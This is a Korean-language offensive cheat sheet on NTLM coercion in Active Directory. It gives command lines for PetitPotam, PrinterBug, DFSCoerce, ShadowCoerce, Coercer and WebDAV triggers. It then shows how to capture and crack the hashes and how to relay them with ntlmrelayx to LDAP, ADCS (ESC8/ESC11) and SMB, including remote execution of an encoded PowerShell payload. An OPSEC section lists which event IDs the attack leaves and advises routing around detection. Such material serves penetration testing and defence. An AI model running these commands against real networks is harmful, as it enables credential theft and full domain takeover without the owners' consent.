

# NTLM Coercion

DC 나 ADCS, 파일 서버 같은 고가치 호스트가 공격자 쪽 SMB / HTTP 리스너로 NTLM 인증을 스스로 보내게 유도하는 기법.

넘어온 NetNTLMv1/v2 challenge 는 그대로 크래킹하던지, 아니면 LDAP / ADCS / SMB 로 NTLM Relay 해서 권한을 올린다. PetitPotam / PrinterBug / DFSCoerce 가 전통의 3대천왕.

> 후속 처리는 [AD 환경 - NTLM Relay](ad-environment.md#NTLM-Relay), [ADCS - ESC8/ESC11](adcs.md), [DACL Abuse](dacl-abuse.md) 참고.

---

## 일반적 흐름



조건:

- 보통 **유효 도메인 credential**이 있어야 RPC/MSRPC 코어션을 호출할 수 있음 (PetitPotam 일부 변형은 미인증 가능)
- target이 **SMB Signing 미강제** (Relay 시) 또는 **MS-EFSR/MS-RPRN/MS-DFSNM/MS-FSRVP 노출**
- 공격자가 target에서 도달 가능한 SMB(445)/HTTP(80) 리스너 보유

---

## 트리거 도구

### Coercer (메타 도구, 추천)

여러 RPC 인터페이스를 한 번에 시도/탐색.

```bash
# 사용 가능한 코어션 메서드 나열
coercer scan -u <user> -p '<pass>' -d <domain> -t <target_ip> -l <listener_ip>

# 모든 메서드 자동 시도
coercer coerce -u <user> -p '<pass>' -d <domain> -t <target_ip> -l <listener_ip>

# 특정 메서드만
coercer coerce -u <user> -p '<pass>' -d <domain> -t <target_ip> -l <listener_ip> \
  --filter-method-name EfsRpcOpenFileRaw

# 미인증 (PetitPotam 패턴)
coercer coerce --no-credentials -t <target_ip> -l <listener_ip>
```

### PetitPotam (MS-EFSRPC)

```bash
# 미인증 (구버전 패치 전 DC)
python3 PetitPotam.py <listener_ip> <target_ip>

# 인증 필요 (대부분의 패치 후)
python3 PetitPotam.py -u <user> -p '<pass>' -d <domain> <listener_ip> <target_ip>

# 다른 메서드 강제
python3 PetitPotam.py -pipe lsarpc -u <user> -p '<pass>' -d <domain> <listener_ip> <target_ip>
```

### PrinterBug / SpoolSample (MS-RPRN)

Print Spooler 서비스가 활성화된 호스트가 공격자에게 인증.

```bash
# 리눅스
python3 dementor.py -u <user> -p '<pass>' -d <domain> <listener_ip> <target_ip>
python3 printerbug.py <domain>/<user>:'<pass>'@<target_ip> <listener_ip>

# Windows (SpoolSample)
SpoolSample.exe <target_fqdn> <listener_fqdn>
```

확인:

```bash
# Spooler 활성화 여부
rpcdump.py @<target_ip> | grep -i spool
nxc smb <target_ip> -u <user> -p '<pass>' -M spooler
```

### DFSCoerce (MS-DFSNM)

```bash
# DC가 DFS Namespace 관리 RPC 를 노출하는 경우
python3 dfscoerce.py -u <user> -p '<pass>' -d <domain> <listener_ip> <dc_ip>
```

### ShadowCoerce (MS-FSRVP)

```bash
# File Server VSS Agent 서비스가 활성화된 호스트
python3 ShadowCoerce.py -u <user> -p '<pass>' -d <domain> <listener_ip> <target_ip>
```

### WebClient 트리거 (HTTP Coercion)

WebClient(WebDAV) 서비스가 활성된 워크스테이션은 **HTTP** 로 인증을 보낸다 → ADCS HTTP relay 와 궁합이 좋음.

```bash
# WebClient 활성 호스트 탐색
nxc smb 10.10.10.0/24 -u <user> -p '<pass>' -M webdav

# UNC 경로 트리거 (예: 검색 인덱서 / 짧은이름)
\\<listener_ip>@80\share
\\<listener_ip>@8080\share

# WebDAV-coerce / PetitPotam HTTP 옵션 사용
```

---

## 캡처 / Relay 시나리오

### 1) 해시 캡처 → 크래킹

```bash
# 리스너
sudo responder -I <iface> -wd

# Coercion 발사 → Responder 에 NetNTLMv2 캡처
hashcat -m 5600 hash.txt rockyou.txt
```

### 2) LDAP / LDAPS Relay (ACL 수정 / 새 컴퓨터 생성)

```bash
# LDAP Signing 미강제일 때
impacket-ntlmrelayx -t ldap://<dc_ip> --escalate-user <attacker_user>
impacket-ntlmrelayx -t ldaps://<dc_ip> --add-computer ATTACKER\$ -smb2support
```

### 3) ADCS HTTP Relay (ESC8) → 도메인 장악

```bash
# Web Enrollment endpoint로 relay → DC 인증서 발급
impacket-ntlmrelayx -t http://<adcs>/certsrv/certfnsh.asp \
  --adcs --template DomainController -smb2support

# Coercion 으로 DC 인증 유도
coercer coerce -u <user> -p '<pass>' -d <domain> -t <dc_ip> -l <listener_ip>

# 인증서 → TGT
certipy auth -pfx dc.pfx -dc-ip <dc_ip>
```

### 4) ADCS RPC Relay (ESC11)

```bash
# IF_ENFORCEENCRYPTICERTREQUEST 미설정 CA
certipy relay -target rpc://<ca_ip> -template DomainController
```

### 5) SMB Relay (Signing 미강제 호스트)

```bash
# SMB Signing 미강제 호스트 목록
nxc smb 10.10.10.0/24 --gen-relay-list relay_targets.txt

# Relay
impacket-ntlmrelayx -tf relay_targets.txt -smb2support \
  -c 'powershell -enc <BASE64>'
```

---

## 코어션 메서드 빠른 비교

| 도구 / RPC | 인터페이스 | 인증 필요 | 트리거 대상 | 비고 |
|------------|-----------|----------|------------|------|
| PetitPotam | MS-EFSRPC | 대부분 필요 (구버전 N) | DC, 일반 서버 | 가장 많이 차단됨 |
| PrinterBug | MS-RPRN | 필요 | Spooler 활성 호스트 | DC 에서 종종 비활성 |
| DFSCoerce | MS-DFSNM | 필요 | DC | 미패치 환경에서 강력 |
| ShadowCoerce | MS-FSRVP | 필요 | File Server | 잘 활성화돼 있음 |
| WebClient (WebDAV) | HTTP | 클라이언트 트리거 | 워크스테이션 | ESC8 과 베스트 매치 |

탐색 / 자동 매칭은 항상 `coercer scan` 으로 시작.

---

## OPSEC

- 모든 코어션은 **이벤트 4624/4625** + **NetNTLM 인증 로그** 를 남긴다
- Relay 후 작업(컴퓨터 계정 생성 `4741`, ACL 수정 `5136`, 인증서 발급 `4886/4887`) 도 함께 기록
- DC 가 자기 자신에게 강제로 인증을 거는 행위는 **이상 트래픽** 으로 잡히기 쉬움 → 가능하면 일반 서버 → ADCS 로 우회
- 사용 후 추가한 컴퓨터 계정(`MachineAccountQuota` 사용분), 위임/ACL 변경은 **반드시 정리**

---

## 사전 점검 체크리스트

```bash
# Spooler
nxc smb <range> -u <user> -p '<pass>' -M spooler

# WebClient
nxc smb <range> -u <user> -p '<pass>' -M webdav

# SMB Signing
nxc smb <range> --gen-relay-list relay_targets.txt

# LDAP Signing / Channel Binding
nxc ldap <dc_ip> -u <user> -p '<pass>' -M ldap-checker

# ADCS Web/RPC Enrollment 노출
certipy find -u <user> -p '<pass>' -dc-ip <dc_ip> -vulnerable -enabled
```
